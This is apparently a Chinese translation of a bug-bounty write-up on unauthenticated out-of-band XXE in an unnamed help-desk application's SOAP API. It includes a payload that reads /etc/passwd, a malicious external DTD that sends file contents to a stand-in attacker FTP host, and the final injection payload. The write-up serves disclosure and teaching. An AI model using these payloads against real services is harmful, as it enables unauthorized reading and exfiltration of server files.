





# 帮助台软件中基于 SOAP 的未经验证的带外 XML 外部实体(OOB-XXE)

> 原文：<https://infosecwriteups.com/soap-based-unauthenticated-out-of-band-xml-external-entity-oob-xxe-in-a-help-desk-software-c27a6abf182a?source=collection_archive---------0----------------------->

我省略了应用程序的名称，因为它是私有程序。

注册应用程序时，我得到了 wsdl 文件，如:

```
https://victim.com/services/ApiService?wsdl
```

我已经使用 wsdler burp 扩展来解析 wsdl 文件，如下图所示:



现在，我向中继器发出请求，并开始为 XXE 模糊它。首先，我从经典的 XXE 有效载荷开始，例如:

```
<?xml version=”1.0"?><!DOCTYPE data [<!ELEMENT data (#ANY)><!ENTITY file SYSTEM “file:///etc/passwd”>]><data>&file;</data>
```



对于文件/etc/passwd



对于文件/etc/shadow

正如你所看到的，从上面两个响应我们可以确认漏洞的存在，但我们只能列举来自服务器的文件。

为了提取文件的内容，我们需要**模拟 FTP** - **服务器(或者如果您使用了不同的服务器，请评论:)**

我在服务器上设置了一个 xxe.dtd 文件，其有效负载如下:

```
<!ENTITY % d SYSTEM “file:///etc/passwd”><!ENTITY % c “<!ENTITY rrr SYSTEM ‘ftp://x.x.x.x:2121/%d;'>">
```

从以下链接下载并运行仿真 ftp 服务器(确保监听端口):

[](https://github.com/ONsec-Lab/scripts/blob/master/xxe-ftp-server.rb) [## ONsec-实验室/脚本

### Utils。在 GitHub 上创建一个帐户，为 ONsec-Lab/scripts 开发做贡献。

github.com](https://github.com/ONsec-Lab/scripts/blob/master/xxe-ftp-server.rb) 

现在，我们需要在易受攻击的请求中输入以下 XXE 有效负载，例如:

```
<!DOCTYPE a [ <!ENTITY % asd SYSTEM "http://x.x.x.x/xxe.dtd"> %asd; %c;]> <sessionId>&rrr;</sessionId>
```



最终 XXE 有效载荷

一旦运行易受攻击的请求，您将开始在仿真 FTP 服务器上接收/etc/passwd 文件的内容，如下面的屏幕截图所示:



参考资料:

```
[http://lab.onsec.ru/2014/06/xxe-oob-exploitation-at-java-17.html?m=1](http://lab.onsec.ru/2014/06/xxe-oob-exploitation-at-java-17.html?m=1)[https://gist.github.com/staaldraad/01415b990939494879b4](https://gist.github.com/staaldraad/01415b990939494879b4)`
```